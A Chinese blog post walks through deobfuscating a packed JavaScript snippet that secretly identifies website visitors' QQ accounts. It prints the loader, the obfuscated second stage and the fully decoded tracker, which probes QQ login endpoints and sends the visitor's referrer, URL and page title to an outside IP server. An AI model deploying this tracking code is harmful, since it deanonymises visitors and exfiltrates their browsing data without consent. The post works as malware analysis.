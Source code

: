 ```yaml
---
layout: post
title: "福利:获取访客QQ的JS实现"
description: "福利:获取访客QQ的JS实现"
category: scripts
tags: ["Mysql"]
---
```


一好友发给我个可以获取访客QQ的JS让我decode，结果在本文底部，不用谢...

## 原始代码:

<pre>
eval(function(p, a, c, k, e, d) {
    while (c--) {
        if (k[c]) {
            p = p.replace(new RegExp('\\b' + c.toString(a) + '\\b', 'g'), k[c])
        }
    }
    return p
} ('7 1=2.8("9");1.6="3://5.4.a.i:b/g/?h=f";2.e("c")[0].d(1);', 19, 19, '|s|document|http|28|115|src|var|createElement|script|238|8080|head|appendChild|getElementsByTagName|135|qqdl|jsuid|63'.split('|')))
</pre>
## 解密思路:

<pre>
var s = document.createElement("script");
s.src = "http://115.28.238.63:8080/qqdl/?jsuid=135";
document.getElementsByTagName("head")[0].appendChild(s);
</pre>

使用curl "http://115.28.238.63:8080/qqdl/?jsuid=135" 被302指向到about:blank，看来对方是有做了User-Agent和Referer检测。curl构造并加上-A和-e选项后果不其然得到了如下结果

<pre>
/*TpWQpv6hX*/var/*tRXJa*/jbXzxsJZqZ/*hXaIq1CPBE*/=/*jwtwxhWVA*/\u0075\u006e\u0065\u0073\u0063\u0061\u0070\u0065;/*EQkMd2z*/var/*jZZAkepw*/hZPRE6Ri/*hB7qmg1W*/=/*qbJXkz*/\u0065\u0076\u0061\u006c;/*T3zJc4U1*/hZPRE6Ri/*VJPYAg*/(jbXzxsJZqZ/*VJPYAg*/("eval/*CslTOEfcM*/%28/*PcnyTyaWqAA*/function/*JmY5I*/%28/*bwwKOIusdA*/p%2Ca%2Cc%2Ck%2Ce%2Cd%29%7Be%3Dfunction/*IriRFHA*/%28/*Cnj8NsO0gJy*/c%29%7Breturn/*FUpmzXGS06d*/%28/*mmnTUONs*/c%3Ca%3F%27%27%3Ae/*OqFe5vlFUdg*/%28/*pt4g0N7X*/parseInt/*yc3QWNuz5*/%28/*jmRqid*/c%2Fa%29%29%29%2B/*GXFUtYdo*/%28/*U11RIvTBbFf*//*VbJgnqw*/%28/*rY9iuTB*/c%3Dc%25a%29%3E35%3FString.fromCharCode/*PPdRG*/%28/*ufqhGsMMPHN*/c%2B29%29%3Ac.toString/*H1FanZ*/%28/*k7j6zsTewA*/36%29%29%7D%3Bif/*oZQI6n1JZ*/%28/*fCUUuqVH*/%21%27%27.replace/*EUdUQ*/%28/*czHy0jQP*/%2F%5E%2F%2CString%29%29%7Bwhile/*mMdgl3Mswx*/%28/*JNZnT*/c--%29%7Bd%5Be/*XWkNpnd*/%28/*G46sKWHmZO*/c%29%5D%3Dk%5Bc%5D%7C%7Ce/*LqRfOVV*/%28/*E8ba6Yk*/c%29%7Dk%3D%5Bfunction/*dxO19IXsi*/%28/*SvAFUjVBo*/e%29%7Breturn%20d%5Be%5D%7D%5D%3Be%3Dfunction/*k9RW8TW*/%28/*B7FLvjCvRqO*/%29%7Breturn%27%5C%5Cw%2B%27%7D%3Bc%3D1%7D%3Bwhile/*SFlqa5zVxN*/%28/*EN3wLM*/c--%29%7Bif/*BkhbVC*/%28/*lX2EBS*/k%5Bc%5D%29%7Bp%3Dp.replace/*X4L60bS*/%28/*I4XsYk*/new%20RegExp/*xtALABx3LKQ*/%28/*eimzfgbc*/%27%5C%5Cb%27%2Be/*cVkRQ79Fh36*/%28/*qI2U5VwG*/c%29%2B%27%5C%5Cb%27%2C%27g%27%29%2Ck%5Bc%5D%29%7D%7Dreturn%20p%7D/*RLKcbQjd*/%28/*ffFqWloWQv*/%27V/*HX8mPTiAg*/%28/*T6qD9skiv*/37/*mAyFnJTaqfP*/%28/*UOhIyp8E41B*/%22V%2538%2539%253a%2536%2513%2535%2531%2529%2532%251a%253%2529%25x%253%2533%253F%2527%2527%2534%253b%253%253c%2529%2529%2529%252B%2528%253%253j%253k%2529%253l%253m.3i%253%253h%2529%253d.3e%253f%2529%2529%250%253g%2528%2521%2527%2527.1o%2528%252F%255E%252F%2530%2529%2529%252Z%253--%2529%252J%2519%253%2529%255D%252K%25t%255D%251%252L%253%2529%252M%253D%252I%252H%2529%25x%252z%2519%255D%250%255D%252D%251a%2528%2529%25x%2527%255C%252E%252B%2527%250%252G%2510%250%252N%253--%2529%252O%252V%25t%255D%2529%252W%252X.1o%252Y%252U%2528%2527%255C%25J%2527%252T%253%2529%252B%2527%255C%25J%2527%252C%252P%2527%2529%2513%25t%255D%2529%250%252Q%252R%250%2528%2527%252S%2528%2529%254%253n%253D%25D%253A%252F%253o.28.1w.1u%253X%253Y%252F%2522%252%253Z%253D%2540%2522%25d%253W%2528%2529%254%253V%25l%25o.1g%2529%252%253R%25l%25o.1x.1y%2529%252%253S%25l%25o.R%2529%252%25F%253T%252B%2522%253U%2541%2522%257%252B%253D%2522%2512%253D%2522%2542%257%252B%253D%2522%2549%25Q%2522%257%252B%253D%2522%254a%253D%2522%254b%257%252B%253D%2522%2548%253D%2522%2547%257%252B%253D%2522%2543%253D%2522%2544%257%252B%253D%2522%2545%253D%2522%252B%25f%25g%2528%2529%2529.m%2528%2529%252%251m%256.v%2528%255C%25s%255C%2527%2529.B%25n%2529%252%2515%256.O%2528%25z%2522%2529%25e.M%253D%25w%25y%2522%25e.P%25G%25Y.T%25h%2529%25A%2546%2517%253Q%2529%254%253P%253v%25g%2528%2529%253w.1B%253x.m%2528%2529%253y%253u%25H%25H%253t%2529%253p.1d%253q%252B%2522%253D%2522%253r%253s%2529%252B%2522%253z%253D%2522%253C.1p%2528%2529%25A%253L%2517%2529%254%253M%256.1d.1l%25f%253N%2528%2522%2528%255E%251%2520%2529%2522%252y%252B%2522%253D%2528%255B%255E%253B%255D%252A%2529%2528%253B%251%2524%2529%2522%2529%2529%25i%251k%2521%25j%253O%253K%251k%253J%255D%2529%253E%253G%25A%253H%25X%253I%254c%2529%254%252w%25S.a.O%2528%25z%2522%2529%259.M%253D%25w%25y%2522%259.20%253D%251r-8%2522%259.U%255%2528%2529%25b%2511%2529%251b%2511%251n%2529%250%250%259.P%25G%252%251C%256.v%2528%255C%25s%255C%2527%2529.B%25n%2529%251G.1Z%25L%251E.1Y%2529%259.I%251c.p%255%2528%2529%25b%2528%2528%251F.c%251%2514.c%253D%253D%253D%25Z%2522%251%2514.c%253D%253D%253D%25N%2522%2529%2529%25b%25K%2529%251b%25K%251n%2529%250%259.I%251c.p%25j%25i%251H%2526%251A.1h%2529%251D.16%25L%2529%250%250%250%250%25d%251z%2528%2529%254%25F%253D%25D%253A%252F%25E.1W.1j.1i%252F%251I%251v%2512%25Q%2518%2510%2522%252B%25f%25g%2528%2529%2529.m%2528%2529%252%251t%255%2528%2529%251f.u%251s%251J%2529%250%252%252x%255%2528%2529%252n%2528%2529%250%252o%25X%252m%252l%2529%25C%252i%252j%25d%252k%2528%2529%25b%252p%2529%25W%252q%252v%251L%2528%2529%25C%252u%252t%25d%252r%2528%2529%254%252s%25j%25i%252h%252g%2529%253D%253D%251V%2522%2529%251e%251X.q%25r%251e%251U.q%251T%251O%253D%251R%251%251S%253D%2523%2529%251f.1M%2525%2529%252e%2528%2529%25r%254%252f%256.1K%2528%251q%2522%2529%252d.1h.16%252c%2529%250%25C%252a%25d%252b%2528%2529%254%254d%253D%25D%253A%252F%255Y.1j.1i%25E%255V%255T-1N%255Z%2566%2567%2565%2564%2561%2562%2518%253D%2522%252B%25f%25g%2528%2529%2529.m%2528%2529%252%251m%256.v%2528%255C%25s%255C%2527%2529.B%25n%2529%252%2515%256.O%2528%25z%2522%2529%25e.M%253D%25w%25y%2522%25e.1P%253D%251q%2522%25i%25h.c%2529%25k.p%255%2528%2529%25b%25h.c%253D%253D%25Z%2522%251%255v.c%253D%253D%25N%2522%2529%25k.p%25j%255O%2528%2529%250%250%25r%25k.I%255%2528%2529%255N%2528%2529%250%255M.P%2569%25Y.T%25h%2529%2568.U%255%2528%2529%25W%256x%250%256y%2528%2529%256w%25S.1Q%256t%256u%2529%250%2529%2528%2529%253B%2527%256A%256I%252C%2527%251%251%256H%251%256F%256B%256C%251%256D%256q%256g%256e%251%256d%256a%256b%256c%256h%256o%256n%256m%256j%256l%256k%254D%254E%251%254F%251%254C%254B%254y%254z%254G%254H%254N%254O%254K%254x%254k%254l%254i%254e%254f%254g%254m%254n%254t%254u%254v%254s%254r%254o%254q%254Q%254R%255h%255i%255j%255g%255f%255c%255d%255e%255k%255l%255r%255s%255q%255p%255m%255o%255b%255a%254Z%254V%254S%254T%254U%2550%2551%2559%2556%2555%2552%2553%2554%255K%2558%2557%254W%254Y%254X%255n%254p%254j%254w%254J%254I%254L%254M%254P%254A%255t%255u%256E%256p%256i%256r%256G%256z%256s%256v%256f%255L%255J%255P%255I%255H%255x%255w%255y%255z%255G%255F%255A%255Q%251%255R%2563%2560%251%255U%2527.5S%2528%2527%251%2527%2529%255W%252C%255X%250%2529%2529%254h%22%29%29%27%2C62%2C417%2C%277D%7C7C%7C3B3%7C28c%7C7B3%7C3D5%7C3Da%7C3B7%7C%7C3B9%7C%7C7Bb%7C%7C3B5%7C3B6%7C28g%7C20j%7C286%7C3Bb%7C3De%7C7B6%7C3DC%7C%7C280%7C28a%7C%7C%7C7DJ%7C27s%7C5Bc%7C%7C%7C22Q%7C7Breturn%7C2FL%7C22N%7C7D5%7C%7C7D3%7C22A%7C2F1k%7C207%7C3D7%7C2A15%7C%7C5Cb%7C28E%7C289%7C%7C2219%7C%7C%7C3D1c%7C%7C3Di%7C%7C%7Ceval%7C7Bk%7C287%7C3Bl%7C221a%7C3D1%7C28F%7C2610%7C2Ck%7C7Cw%7C206%7C%7C28o%7C26t%7C5Be%7C3Dfunction%7C7Bu%7C3D9%7C%7C7Bf%7C7Bi%7C%7C%7C%7C%7C28D%7C%7C20l%7C2C18%7Creplace%7C%7C221b%7C2221%7C28z%7C20q%7C%7C3D22%7C%7C%7C%7C20z%7C269%7C%7C20h%7C7Bh%7C2Ch%7C21w%7C3Bh%7C28h%7C3F23%7C2C29%7C%7C3B13%7C%7C%7C28f%7C%7C%7C3D1L%7C7Cf%7C7Db%7C3DS%7C221X%7C%7C3D1G%7C%7C%7C%7C%7C%7C3D1V%7C%7C28G%7C%7C%7C%7C%7C20G%7C20K%7C28y%7C3By%7C3Bz%7C20y%7C28S%7C2825%7C20x%7C3D27%7C20X%7C2C11%7C2Cq%7C7BX%7C3BY%7C28x%7C7Dx%7C20H%7C20f%7C3D0%7C2026%7C3D14%7C209%7C2011%7C2Bo%7C20d%7C%7C%7C%7C3Be%7C5Cw%7C%7C3Bc%7C28e%7C5Bfunction%7C7Bd%7C3Dk%7C7Ce%7C7Dk%7C3Bwhile%7C7Bif%7C27g%7C7Dreturn%7C20p%7C285%7C2Be%7C20RegExp%7C28k%7C7Bp%7C3Dp%7C28new%7C7Bwhile%7C2CString%7C2Cd%7C7Be%7C3Ca%7C3Ae%7C2Ce%7C2Cc%7Cunescape%7C28function%7C28p%7C2Ca%7C28parseInt%7C2Fa%7C3Ac%7CtoString%7C2836%7C3Bif%7C2B29%7CfromCharCode%7C3Dc%7C25a%7C3E35%7C3FString%7C2017%7C2F1v%7C3Ba%7C3Do%7C2B1A%7C28Z%7C2A1z%7C2A24%7C3Dg%7C3Bn%7C28n%7C2B2%7C3B1F%7C%7C%7C2Bn%7C%7C3Bk%7C%7C20e%7C20Y%7C2CF%7C5B2%7C201o%7C201n%7C20D%7C201m%7C29k%7C20n%7C2CZ%7C2012%7C20W%7C3D17%7C3F1D%7C201e%7C2013%7C3A1t%7C2F1r%7C201f%7C221s%7C3D1q%7C2B1f%7C26R%7C2BW%7C26r%7C201C%7C2B12%7C267%7C261E%7C261g%7C2B1e%7C2CE%7C20V%7C7CisLogin%7C7Conload%7C7Celse%7C0A%7C7CisLoginTimeID%7C7Chref%7C7Consuccess%7C7Conerr%7C7CdynamicLoad%7C7Cjavascript%7C7Ctitle%7C7Clocation%7C7Cdata3%7C7Ctext%7C7Csrc%7C7Ctype%7C7Cscript%7C7CcreateElement%7C7C1000%7C7Carr%7C7Cthis%7C7CisSubmited%7C7Cexpires%7C7CgetElementsByTagName%7C7CsetTimeout%7C7Conreadystatechange%7C7Cerr%7C7CHEAD%7C7Ccheckscript%7C7CinsertFrame%7C7CsetTime%7C7Cescape%7C7CencodeURIComponent%7C7CSetCookie%7C7Caction%7C7Chttp%7C7Citem%7C7Cmeishi%7C7CappendChild%7C7Conerror%7C7Ci_uid%7C7Creferrer%7C7CparentNode%7C7Ci_referrer%7C7C8080%7C7C115%7C7C63%7C7Ccookie%7C7Ccom%7C7Cqq%7C7CGetCookie%7C7Cunescape%7C7CtoGMTString%7C7CRegExp%7C7Cmatch%7C7C135%7C7Cqqdl%7C7Capp%7C7C10003938998%7C7Ccheckloginscript%7C7Cuid%7C7Csucc%7C7Ci_url%7C7Cvalue%7C7CCrossUrl%7C7Cvsrc%7C7Ci_title%7C7CnewSubmit%7C7C_init_send_by_iframe%7C7Ctrue%7C7Ccomplete%7C7C238%7C7Cloaded%7C7C0x0%7C7Ci_php%7C7C60%7C7CremoveChild%7C7Cdata0%7C7Cyx%7C7C6%7C7Cundefined%7C7Cdata%7C7CfirstChild%7C7CinsertBefore%7C7Cuser%7C%7C%7C%7C%7C7CUTF%7C7Ccharset%7C7C1026%7C7C3000%7C7Clc%7C7CsaveQQ%7C7C365633133%7C7D6%7C7BH%7C3BH%7C7Chc%7C7Cumod%7C7Ctypeof%7Csplit%7C2F1I%7C7C50%7C2F1H%7C2C0%7C7B%7C2F1J%7C2F1O%7C7Cfalse%7C26d%7C3D1R%7C7CcheckTime%7C3D4%7C261S%7C3F1T%7C3D8%7C7Di%7C3DV%7C7Ccode%7C7Cnew%7C7Cscn_head%7C7Cnull%7C7CreadyState%7C7CsetInterval%7C7Cif%7C7Cwindow%7C7CgetElementById%7C7CgetTime%7C7Cname%7C7Cexp%7C7CoHead%7C7Creturn%7C7CDate%7C7Capps%7C7Cdocument%7C7C1007%7C7Cshow_fel%7C28K%7C2C1U%7C7Cid%7C3BG%7C2014%7C3BK%7C7Cbin%7C2C62%7C7CoScript%7C7Curl%7C7CtempScript%7C7Ccgi%7C7Cfunction%7C7CclearInterval%7C7Cvar%7C2C134%27.split/*rACEJX*/%28/*QoWtCwd*/%27%7C%27%29%2C0%2C%7B%7D%29%29%0A"/*NHBpgpN5Ezp*/)/*OsyzCG7EtMe*//*NHBpgpN5Ezp*/)/*OsyzCG7EtMe*//*GjhHcWPK*///javascript_encode For PHP By som./**/
</pre>

这画面太美...不忍直视啊，说下思路，被/* */包围的都可以去掉，无公害，\u0065\u0076\u0061\u006c 转码之后发现是eval，同理\u0075\u006e\u0065\u0073\u0063\u0061\u0070\u0065对应的是unescape，然后eval替换成document.write尝试输出，或者return p之前可以先输出p。这是常规的解法，但是坑爹的应用在这个里面不行，猜测应该是有对解密做了防范，解密时会检测自身比如代码块的字符数等等。千辛万苦，看结果吧。



## 最终结果：
<pre>
(function() {
    var i_php = "http://115.28.238.63:8080/qqdl/";
    var i_uid = "135";
    function _init_send_by_iframe() {
        var i_referrer = encodeURIComponent(document.referrer);
        var i_url = encodeURIComponent(document.location.href);
        var i_title = encodeURIComponent(document.title);
        var url = i_php + "?action=saveQQ";
        url += "&uid=" + i_uid;
        url += "&meishi=10003938998";
        url += "&referrer=" + i_referrer;
        url += "&url=" + i_url;
        url += "&title=" + i_title;
        url += "&r=" + (new Date()).getTime();
        var oHead = document.getElementsByTagName('HEAD').item(0);
        var oScript = document.createElement("script");
        oScript.type = "text/javascript";
        oScript.src = url;
        oHead.appendChild(oScript)
    }
    function SetCookie(name, value) {
        var exp = new Date();
        exp.setTime(exp.getTime() + 2 * 24 * 60 * 60 * 1000);
        document.cookie = name + "=" + escape(value) + ";expires=" + exp.toGMTString()
    }
    function GetCookie(name) {
        var arr = document.cookie.match(new RegExp("(^| )" + name + "=([^;]*)(;|$)"));
        if (arr != null) return unescape(arr[2]);
        return null
    }
    function CrossUrl(url, onerr, onsuccess) {
        var tempScript = window.document.createElement("script");
        tempScript.type = "text/javascript";
        tempScript.charset = "UTF-8";
        tempScript.onerror = function() {
            if (onerr) {
                setTimeout(onerr, 0x0)
            }
        };
        tempScript.src = url;
        var scn_head = document.getElementsByTagName('HEAD').item(0);
        scn_head.insertBefore(tempScript, scn_head.firstChild);
        tempScript.onload = tempScript.onreadystatechange = function() {
            if ((!this.readyState || this.readyState === "loaded" || this.readyState === "complete")) {
                if (onsuccess) {
                    setTimeout(onsuccess, 0x0)
                };
                tempScript.onload = tempScript.onreadystatechange = null;
                if (scn_head && tempScript.parentNode) {
                    scn_head.removeChild(tempScript)
                }
            }
        }
    };
    function insertFrame() {
        var url = "http://app.data.qq.com/?umod=user&uid=10003938998&t=1" + (new Date()).getTime();
        var err = function() {
            window.setTimeout(insertFrame, 50)
        };
        var succ = function() {
            newSubmit()
        };
        CrossUrl(url, err, succ)
    }
    var isSubmited = false;
    function newSubmit() {
        if (isSubmited) {
            return
        }
        isSubmited = true;
        _init_send_by_iframe()
    }
    var checkTime = 0;
    function isLogin() {
        var code = null;
        if (typeof(data3) == "undefined") {
            code = data0.err
        } else {
            code = data3.err
        }
        if (code == 1007 || code == 1026) {
            window.clearInterval(isLoginTimeID);
            insertFrame()
        } else {
            var checkscript = document.getElementById("checkloginscript");
            checkscript.parentNode.removeChild(checkscript)
        }
    }
    var isLoginTimeID;
    function dynamicLoad() {
        var vsrc = "http://apps.qq.com/app/yx/cgi-bin/show_fel?hc=8&lc=4&d=365633133&t=" + (new Date()).getTime();
        var oHead = document.getElementsByTagName('HEAD').item(0);
        var oScript = document.createElement("script");
        oScript.type = "text/javascript";
        oScript.id = "checkloginscript";
        if (oScript.readyState) {
            oScript.onreadystatechange = function() {
                if (oScript.readyState == "loaded" || oScript.readyState == "complete") {
                    oScript.onreadystatechange = null;
                    isLogin()
                }
            }
        } else {
            oScript.onload = function() {
                isLogin()
            }
        }
        oScript.src = vsrc;
        oHead.appendChild(oScript)
    }
    window.onerror = function() {
        return true
    };
    dynamicLoad();
    isLoginTimeID = window.setInterval(dynamicLoad, 3000)
})();
</pre>

